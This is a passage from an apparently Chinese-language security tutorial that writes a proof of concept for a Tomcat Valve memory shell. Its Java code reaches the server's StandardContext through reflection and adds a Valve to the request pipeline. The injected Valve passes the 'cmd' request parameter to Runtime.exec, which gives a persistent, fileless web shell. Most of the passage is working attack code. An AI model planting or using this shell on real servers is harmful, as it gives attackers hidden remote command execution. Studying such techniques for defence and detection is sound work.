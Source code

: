 明确了上述的几点后，就可以开始编写 PoC 了。

## 0x04 Valve 内存马的 PoC 编写

这里我们需要先定义一个 `doGet()` 方法，因为我们是发出 GET 请求的，通过 `doGet()` 方法获取到 request 对象。

代码如下

JAVA

```
public class ValveShell_Servlet extends HttpServlet {  
  
    @Override  
 protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {  
        try {  
            Field FieldReq = req.getClass().getDeclaredField("request");  
 FieldReq.setAccessible(true);  
 Request request = (Request) FieldReq.get(req);  
 StandardContext standardContext = (StandardContext) request.getContext();  
 standardContext.getPipeline().addValve(new ValveBase() {  
                @Override  
 public void invoke(Request request, Response response) throws IOException, ServletException {  
  
                }  
            });  
 resp.getWriter().write("inject success");  
 } catch (Exception e) {  
        }  
    }  
}
```

再到我们 `ValveBase` 这个子类里面去，编写我们的恶意代码。

JAVA

```
class ValveShell extends ValveBase{  
  
    @Override  
 public void invoke(Request request, Response response) throws IOException, ServletException {  
        System.out.println("111");  
 try {  
            Runtime.getRuntime().exec(request.getParameter("cmd"));  
 } catch (Exception e) {  
  
        }  
    }  
}
```

测试成功！

